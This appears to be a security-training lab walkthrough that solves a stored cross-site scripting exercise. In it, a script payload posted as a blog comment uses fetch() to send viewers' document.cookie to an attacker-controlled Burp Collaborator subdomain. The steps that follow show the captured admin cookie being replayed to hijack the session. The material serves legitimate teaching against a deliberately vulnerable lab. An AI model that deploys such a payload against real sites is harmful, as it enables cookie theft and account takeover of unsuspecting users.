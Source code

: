 ### Lab: Exploiting cross-site scripting to steal cookies

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their cookie.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's cookie in the POST body.
6.  Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

